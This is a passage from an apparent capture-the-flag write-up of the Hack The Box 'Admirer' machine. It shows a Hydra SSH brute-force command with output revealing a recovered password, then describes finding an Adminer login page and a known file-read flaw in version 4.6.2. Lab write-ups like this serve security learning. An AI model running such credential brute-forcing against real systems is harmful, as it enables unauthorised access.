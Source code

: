 Then, I tried to brute-force the SSH service with [Hydra][kali-hydra]:

```raw
$ hydra -L usernames.txt -P passwords.txt -t 4 10.10.10.187 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-18 06:22:59
[DATA] max 4 tasks per 1 server, overall 4 tasks, 126 login tries (l:18/p:7), ~32 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
[STATUS] 106.00 tries/min, 106 tries in 00:01h, 20 to do in 00:01h, 4 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-18 06:24:11
```

The FTP credentials worked but the connection is automatically closed before
accessing any shell. I also tried the same brute-forcing technique on the FTP
service but with no more luck.

I decided to have a closer look at the files in the backup, and I eventually
stumbled upon this comment in `utility-scripts/db_admin.php`:

> // TODO: Finish implementing this or find a better open source alternative

After a quick search on the internet for "phpmyadmin equivalents", I found a
tool called "Adminer". Bingo!

![HTB Admirer Adminer login page](/assets/images/htb-admirer-adminer-login.png)

The Adminer dashboard is accessible at
`http://10.10.10.187/utility-scripts/adminer.php`. I tried the different
credentials I had collected so far but nothing worked. Then, I checked the
known vulnerabilities of Adminer v4.6.2 (the version number is indicated on the
login page) and it turned out that
[there is a way to read arbitrary files on the remote machine][adminer-exploit-blog-post].


 [adminer-exploit-blog-post]: https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f "Adminer Script Results to Pwning Server?, Private Bug Bounty Program"
 [bettercap]: https://www.bettercap.org/ "Bettercap Official Website"
 [bettercap-caplets]: https://www.bettercap.org/usage/#caplets "Bettercap - Caplets"
 [bettercap-mysql-module]: https://www.bettercap.org/modules/ethernet/servers/mysql.server/ "Bettercap MySQL module"
 [htb]: https://hackthebox.eu/ "Hack The Box - Main Website"
 [kali-hydra]: https://tools.kali.org/password-attacks/hydra "Kali Tools - Hydra Package Description"
 [nmap-ftp-anon]: https://nmap.org/nsedoc/scripts/ftp-anon.html "Nmap script ftp-anon"
 [python-path]: https://docs.python.org/3/using/cmdline.html#envvar-PYTHONPATH "Python 3 Documentation - PYTHONPATH"